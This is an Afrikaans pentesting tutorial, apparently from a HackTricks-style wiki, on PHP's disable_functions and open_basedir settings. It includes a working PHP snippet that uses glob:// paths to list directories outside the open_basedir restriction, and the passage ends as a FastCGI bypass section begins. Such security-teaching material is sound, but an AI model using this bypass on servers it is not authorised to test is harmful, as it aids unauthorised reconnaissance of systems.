 
**Gedeaktiveerde funksies** is die instelling wat in `.ini` lêers in PHP gekonfigureer kan word om die gebruik van die aangeduide **funksies** te **verbied**. **Open basedir** is die instelling wat aan PHP aandui watter vouer toeganklik is.\
Die PHP-instelling moet gekonfigureer word in die pad _/etc/php7/conf.d_ of soortgelyk.

Beide konfigurasies kan gesien word in die uitset van **`phpinfo()`**:

![](https://0xrick.github.io/images/hackthebox/kryptos/17.png)

![](<../../../../.gitbook/assets/image (347).png>)

## open\_basedir Bypass

`open_basedir` sal die vouers konfigureer wat PHP kan toegang gee, jy **sal nie in staat wees om enige lêer buite** daardie vouers te skryf/lees/uit te voer nie, maar jy **sal selfs nie in staat wees om** ander gidslys te maak nie.\
As jy egter op een of ander manier arbitrêre PHP-kode kan uitvoer, kan jy die volgende stuk **kodes** probeer om die beperking te **omseil**.

### Gidslyste met glob:// omseiling

In hierdie eerste voorbeeld word die `glob://`-protokol met 'n omseiling van 'n pad gebruik:
```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
echo "{$f}<br/>";
}
```
**Nota1**: In die pad kan jy ook `/e??/*` gebruik om `/etc/*` en enige ander vouer te lys.\
**Nota2**: Dit lyk asof 'n deel van die kode gekopieer is, maar dit is eintlik nodig!\
**Nota3**: Hierdie voorbeeld is slegs nuttig om vouers te lys en nie om lêers te lees nie

### Volledige open\_basedir omseil deur FastCGI te misbruik

As jy meer wil leer oor PHP-FPM en FastCGI kan jy die [eerste gedeelte van hierdie bladsy](disable\_functions-bypass-php-fpm-fastcgi.md) lees.\
As **`php-fpm`** gekonfigureer is, kan jy dit misbruik om heeltemal **open\_basedir** te omseil:
